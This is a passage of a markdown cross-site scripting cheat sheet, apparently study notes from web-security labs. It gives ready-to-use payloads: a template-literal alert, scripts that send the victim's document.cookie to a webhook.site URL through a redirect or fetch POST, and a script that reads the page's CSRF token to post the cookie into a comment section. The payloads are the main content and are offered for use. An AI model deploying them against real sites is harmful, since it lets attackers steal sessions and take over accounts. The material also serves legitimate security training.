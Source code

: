 This backstiks allow us to this particular expression `{...}`. The embedded expressions: 

- are evaluated
- are normally concatenated into the surrounding text

This can allow us to use this type of payload: 

```js
`${alert(document.domain)}`
```

## Exploiting cross-site scripting vulnerabilities

### Exploiting cross-site scripting to steal cookies

Most web applications use cookies for session handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.

#### Limitation

- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the HttpOnly flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.

#### Exploit

Example of  collecting cookie data with webhooking:

```html
<script>document.location='https://webhook.site/b29c64ea-5fbc-4ba0-9b29-b5eb079a2e3a?c=' + document.cookie</script>

<script>
fetch('https://webhook.site/b29c64ea-5fbc-4ba0-9b29-b5eb079a2e3a', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

CSRF way to write cookie in the comment section:

```html
<script>
    window.addEventListener('DOMContentLoaded', function(){
        var token = document.getElementsByName("csrf")[0].value;
        var data = new FormData();
        data.append('csrf', token);
        data.append('postId', 3);
        data.append('comment', document.cookie);
        data.append('name', 'victime');
        data.append('email', 'get@gmail.com');
        fetch('/post/comment',{
            method: 'POST',
            mode: 'no-cors',
            body: data
        });
    });
</script>
```
